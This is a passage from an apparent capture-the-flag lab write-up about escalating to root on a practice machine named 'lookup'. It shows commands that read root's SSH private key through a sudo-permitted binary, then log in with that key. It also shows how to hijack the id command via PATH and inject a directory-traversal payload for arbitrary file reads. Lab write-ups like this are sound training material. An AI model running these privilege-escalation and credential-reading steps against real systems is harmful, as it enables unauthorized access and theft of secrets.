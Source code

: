 Using this method, we are successful at reading the private **SSH** key for the `root` user as such:

```console
think@lookup:~$ sudo /usr/bin/look '' /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...
DgTNYOtefYf4OEpwAAABFyb290QHVidW50dXNlcnZlcg==
-----END OPENSSH PRIVATE KEY-----
```

We can save this private key in a file, set the correct permissions for it, and then use it with **SSH** to gain a shell as the `root` user. From there, we can read the root flag at `/root/root.txt` and complete the room.

```console
$ chmod 600 id_rsa

$ ssh -i id_rsa root@lookup.thm
...
root@lookup:~# wc -c root.txt
33 root.txt
```

## Unintended www-data to root

Looking back at how the `/usr/sbin/pwm` binary works, we know that it extracts everything within parentheses for the `uid` field in the output of the `id` command as the username.

After that, it uses the extracted username without any filtering to build the filename to read and prints the contents of it.

So, what we can do is, instead of providing a username like `think` (which builds the filename as `/home/think/.passwords`), we can provide a directory traversal payload as the username to make it read the `.passwords` file from any part of the filesystem. Additionally, we can make this `.passwords` file a symlink to any file we want to read, achieving arbitrary file read.

To exploit this, let's create our `id` executable with a directory traversal payload as the username and modify our `PATH` variable to hijack the actual `id` command, as shown below:

```console
www-data@lookup:/var/www/html$ echo -e '#!/bin/bash\necho "uid=33(../var/www/html) gid=33(www-data) groups=33(www-data)"' > /var/www/html/id
www-data@lookup:/var/www/html$ chmod 777 /var/www/html/id
www-data@lookup:/var/www/html$ export PATH=/var/www/html:$PATH
www-data@lookup:/var/www/html$ which id
/var/www/html/id
www-data@lookup:/var/www/html$ id
uid=33(../var/www/html) gid=33(www-data) groups=33(www-data)
```
{: .wrap }

> We are using `/var/www/html` instead of `/tmp` or `/dev/shm`, because `fs.protected_symlinks` is enabled on the host. This means that any `symlink` created in a world-writable directory like `/tmp` or `/dev/shm` will not be followed. While we could still create the `id` executable in those directories and only put the `symlink` in `/var/www/html`, preparing everything in a single directory is simpler.  
{: .prompt-tip }
